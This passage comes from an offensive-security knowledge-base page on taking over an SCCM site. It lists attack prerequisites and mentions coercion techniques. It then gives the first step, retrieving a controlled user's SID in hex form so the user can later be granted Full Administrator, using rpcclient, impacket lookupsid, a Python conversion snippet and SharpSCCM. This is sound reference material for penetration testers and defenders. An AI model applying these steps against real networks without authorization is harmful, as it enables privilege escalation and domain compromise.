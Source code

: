     OR

    * SMB is reachable and SMB signing isn’t required on the site database server
* knowing the three-character site code for the SCCM site is required (step 3 below)
* knowing the NetBIOS name, FQDN, or IP address of a site management point is required
* knowing the NetBIOS name, FQDN, or IP address of the site database server is required

The first four requirements above apply to the [client push installation coercion technique](sccm-mecm.md#client-push-installation). But without them, a regular coercion technique could still be used (petitpotam, printerbug, etc.).
{% endhint %}

1. Retrieve the controlled user SID

The first step consists in retrieving the hexadecimal format of the user's SID (Security IDentifier) to grant "Full Administrator SCCM role" to, on the site database server. The hex formatted SID is needed in a part below: [sccm-mecm.md](sccm-mecm.md#4.-obtain-an-sql-console "mention").

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, the Samba utility named [rpcclient](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html) can be used for this purpose.

```bash
rpcclient -c "lookupnames USER" $TARGET_IP
```

Impacket's [lookupsid](https://github.com/fortra/impacket/blob/master/examples/lookupsid.py) (Python) can also be used to retrieve the user's SID.

```bash
lookupsid.py "$DOMAIN"/"$USERNAME":"$PASSWORD"@"$TARGET_IP_OR_NAME"
```

The returned SID value is in canonical format and not hexadecimal, [impacket](https://github.com/fortra/impacket/blob/34229464dab9ed4e432fdde56d14a916baaac4db/impacket/ldap/ldaptypes.py#L48) can be used to convert it as follows.

{% code overflow="wrap" %}
```python
from impacket.ldap import ldaptypes
sid=ldaptypes.LDAP_SID()
sid.fromCanonical('sid_value')
print('0x' + ''.join('{:02X}'.format(b) for b in sid.getData()))
```
{% endcode %}
{% endtab %}

{% tab title="Windows" %}
From Windows systems, [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) (C#) can be used for this purpose.

```
# this should be run on the windows SCCM client as the user (no need for admin privileges here)
SharpSCCM.exe get user-sid
```
{% endtab %}
{% endtabs %}
